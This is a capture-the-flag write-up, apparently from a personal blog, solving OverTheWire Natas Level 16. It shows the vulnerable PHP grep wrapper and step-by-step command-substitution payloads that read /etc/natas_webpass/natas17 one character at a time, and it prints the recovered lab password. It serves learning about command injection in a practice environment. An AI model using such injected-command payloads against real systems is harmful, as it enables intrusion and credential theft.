

# Natas Level 16
This level builds on Level 10, and changes the backend code so that it becomes more secure.

## Quest
We are presented with a webpage similar to what we saw in Level 10.


Here is the backend code, i'll highlight the differences.
```php
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {     // Dont allow ; | ' " ` & in user input
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");  // Our input is inserted in quotes now
    }
}
?>
</pre>
```
<br/><br/>
## Solution
Above i've highlighted two main differences in the code, here they are again:<br/>
  - Don't allow `;`, `|`, `'`, `&` `"` and backtick character in user input<br/>
  - User input is now enclosed in quotes `"`<br/>
Allowed characters that can be helpful are `$^({`. We will use them to get the password.

> Before we proceed, i must say that after completing this writeup, i'll search to see how other people did it because i certainly took the hard way and there is bound to be a simpler approach to this. Nonetheless, i did it and i want to document how it was done.

Now, looking at the PHP code, it seemed that this one would be easy like Level 10, but this took more time.

Our input is placed inside `"` in PHP code and i found no way to escape it, so only thing left to do was to make best of the condition and smuggle data slowly while remaining inside quotes `"`.

First, we check what we can do,  we can search for `^w` and `^w$` and it works just fine. See below

<br/>

As backticks are not allowed, we check if we can run a command using `$()`. We enter `^$(echo)`. 
It translates to ->  `grep -i "^$(echo H)" dictionary.txt`  _// all words starting with letter H_


<br/>

> Now we have a rough strategy, read the the password file character by character, that character read will be our search term, which in turn will then be the first character of our output.

<br/>

Also, lets figure out how to display particular character from a file. We use `cut` command, see below:
```shell
# Sample file
$ cat test.txt
Hello World!
# Get First character
$ cut -c 1 test.txt
H
# Get 12th character, and so on
$ cut -c 12 test.txt                                                                                   
!
```

Now, this will work but we have a problem, actually we have 2 problems:<br/>
  i. Our password can contain numbers, which are not present in dictinary words. How do we extract them ?<br/>
  ii. How will we differentiate between lowercase and uppercase letters as `grep` uses `-i` flag ?<br/>
  
We'll address them, first lets work with what we have in hand, and extract what we could.<br/>
  We use this <span id=green>payload -></span>  `^$(cut -c 1 /etc/natas_webpass/natas17)`

First character            |  Second character
:-------------------------:|:-------------------------:
  |  

We repeat above process 32 times. We put a `.` when we get no output and First letter, when we get on output. 
<br/>
Throwing some more screenshots here.
<p float="left">
  
   
</p>

We repeat the above process 32 times (use Burp), i get a password that looks like this


<span id=green>Note:</span> In the above image, `.` represent numbers, which are not known yet and all the letters are uppercase because we don't know there cases yet.

Now, let tackle the <u>number problem</u> first (_its relatively easier_)

Our password contains numbers and dictionary words donot,<span id=green> so if we could somehow change the output depending on our input number, we might be in luck.</span>
Lets do some test in our local terminal
```shell
$ cat test.txt      
a
ab
abc
abcd

# find words containing  2 letters
$ grep -i "^.\{2\}$" test.txt                      
ab

# find words containing a single letter
$ grep -i "^.\{1\}$" test.txt                                                                          
a  

# find words with containing 4 letters
$ grep -i "^.\{4\}$" test.txt                                                                          
abcd
```
If you see above, now we can control the output depending on input number, payload break down below:


>   ^  :    starts with <br/> 
    .  :    any character<br/>
  {n} :    number of times that char is repeated<br/>
    $  :    ends with<br/>
    \  :    used to escape { and }
    
 <br/>
Here we can see it works

<p float="left">
  
   
</p>

<br/>

Finaly let's try it, <span id=green>our payload -></span> `^.\{$(cut -c 1 /etc/natas_webpass/natas17)\}$`


Here we try for 30th password character (_which is a number_)


After we repeat this for all the `.`'s in our password, our password looks like this


Now to the final task, <u>figure out the cases of letters</u>. This was a tricky one and involved a bit of head banging.
So after a lot of testing, i came up with this.<br/>
We use `-c` flag of `grep`. It shows us the number of times a pattern appears. See below:
```shell
# Here i have a file
$ cat secret          
Hl2kjgl

# line starts with h
$ grep -c ^h secret.txt   # Not true
0

# line starts with H
$ grep -c ^H secret.txt   # True
1
```
Now we place this into `^.\{$(<cmd>)\}$` Our cmd will be `grep -c ^8 /etc/natas_webpass/natas17`<br/>
<span id=green>Final payload</span><br/>
          `^.\{$(grep -c ^8 /etc/natas_webpass/natas17)\}$`
            
Lets break it down<br/>
  - We will test it with our approximate password. 8PS3H0GWBN5RD9S7GMADGQNDKHPKQ9CW<br/>
  - `$(grep -c ^8 /etc/natas_webpass/natas17\}$` return `1` or `0` depending upon if first character is 8 or not<br/>
  - which leaves our input like this` ^.\{1\}$` or `^.\{0\}$` depending upon whether password starts with 8 or not<br/>
  - So we will either see a one line output if starting of our password is correct or nothing if its wrong.<br/>
  - We use this to determine case of the letter.<br/>

Below are the Screenshots


Now we check if second letter in our password is uppercase P or lower case p.


<span id=green>Finally!</span> some good news!


Now we can differentiate between the cases of characters and we will repeat this process 32 times for each password character, which will then reveal final password. Below are some random shots for this process


Last one


So we found our password, here is its journey.

.PS.H.GWBN.RD.S.GMADGQNDKHPKQ.CW <span id=green>-></span> 8PS3H0GWBN5RD9S7GMADGQNDKHPKQ9CW <span id=green>-></span> 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

And finally we are done.

Thanks, this was a lot. I believe i have too much free time. I am going to take a break!


<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
